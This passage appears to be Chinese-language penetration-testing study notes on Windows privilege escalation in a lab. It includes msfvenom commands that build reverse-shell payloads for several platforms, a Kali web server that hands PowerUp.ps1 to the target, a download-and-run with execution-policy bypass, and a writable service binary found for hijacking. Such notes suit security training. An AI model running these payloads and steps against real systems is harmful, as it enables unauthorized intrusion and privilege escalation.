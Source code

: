 執行 interactive shell 兩種方法
##### (1) Runas
(可參考 [本章 #Hidden-in-Plain-View 3.](#Hidden-in-Plain-View))\
```
PS C:\Users\dave> runas /user:dave2 cmd
```
![image](https://hackmd.io/_uploads/ryrPojScye.png)

##### (2) msfvenom
使用 [msfvenom](https://www.offsec.com/metasploit-unleashed/msfvenom/) 新增 executable file 執行 reverse shell
 
>[!Important]
> msfvenom 範例：\
>`msfvenom -p <PAYLOAD> -f <FORMAT> -o <輸出檔案> <選項>`
> - Windows reverse shell:\
> `msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe -o chw.exe`
> - Linux reverse shell:\
> `msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f elf -o chw.elf`
> - PHP reverse Shell:\
> `msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f raw > chw.php`
> - PowerShell code:\
> `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f psh > chw.ps1`
> - Base64 encode PowerShell code:\
> `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f psh-cmd`

#### 6. [PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc) automated tool
```
kali@kali:~$ cp /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1 .

kali@kali:~$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ..
```
##### 6.1 使用 `ExecutionPolicy Bypass` 啟動 powershell
##### 6.2 使用 Get-ModifiableServiceFile 來尋找可修改的服務，例如服務二進位檔案或設定檔。
```
PS C:\Users\dave> iwr -uri http://192.168.48.3/PowerUp.ps1 -Outfile PowerUp.ps1

PS C:\Users\dave> powershell -ep bypass
...
PS C:\Users\dave>  . .\PowerUp.ps1

PS C:\Users\dave> Get-ModifiableServiceFile

...

ServiceName                     : mysql
Path                            : C:\xampp\mysql\bin\mysqld.exe --defaults-file=c:\xampp\mysql\bin\my.ini mysql
ModifiableFile                  : C:\xampp\mysql\bin\mysqld.exe
ModifiableFilePermissions       : {WriteOwner, Delete, WriteAttributes, Synchronize...}
ModifiableFileIdentityReference : BUILTIN\Users
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'mysql'
CanRestart                      : False
```
> `mysql` 服務的可執行檔 mysqld.exe 可被 BUILTIN\Users 群組成員（如 dave）修改。\
但 CanRestart 為 False，所以無法直接重新啟動服務來觸發權限提升，可能需要重新開機。


[CLIENTWK220]: PS C:\Users\daveadmin\Documents> whoami
[CLIENTWK220]: PS C:\Users\daveadmin\Documents> cd C:\
[CLIENTWK220]: PS C:\Users\daveadmin\Documents> pwd
[CLIENTWK220]: PS C:\Users\daveadmin\Documents> dir